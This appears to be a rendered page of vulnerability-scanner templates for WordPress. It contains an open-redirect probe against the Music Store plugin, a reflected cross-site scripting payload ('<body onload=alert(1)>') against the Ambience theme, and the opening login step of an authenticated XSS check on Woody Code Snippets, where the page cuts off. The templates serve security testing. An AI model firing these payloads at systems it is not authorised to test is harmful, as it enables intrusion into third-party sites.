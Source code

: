 ```
GET /wp-content/plugins/music-store/ms-core/ms-submit.php HTTP/1.1
Host: {{Hostname}}
Referer: https://interact.sh

```
### Matchers

**Type - regex**
- part - header
- regex
    1. (?m)^(?:Location\s*?:\s*?)(?:https?:\/\/|\/\/|\/\\\\|\/\\)?(?:[a-zA-Z0-9\-_\.@]*)interact\.sh\/?(\/|[^.].*)?$

---
# WordPress Ambience Theme \<=1.0 - Cross-Site Scripting
## Description
- WordPress Ambience Theme 1.0 and earlier was affected by a cross-site scripting vulnerability.

- severity - medium
- tags - wp-plugin,wp,edb,wpscan,wordpress,xss
## Requests
- Method - GET
### URL
- {{BaseURL}}/wp-content/themes/ambience/thumb.php?src=%3Cbody%20onload%3Dalert(1)%3E.jpg
### Matchers

**Type - word**
- part - body
- words
    1. \<body onload=alert(1)>

**Type - word**
- part - header
- words
    1. text/html

**Type - status**
- status
    1. 200

---
# WordPress Woody Code Snippets \<2.4.6 - Cross-Site Scripting
## Description
- WordPress Woody Code Snippets plugin before 2.4.6 contains a cross-site scripting vulnerability. It does not escape generated URLs before outputting them back in an attribute.
- severity - high
- tags - xss,wp,wordpress,authenticated,woody,wpscan,wp-plugin
## Requests
### Step - 1
```
POST /wp-login.php HTTP/1.1
Host: {{Hostname}}
Origin: {{RootURL}}
Content-Type: application/x-www-form-urlencoded
```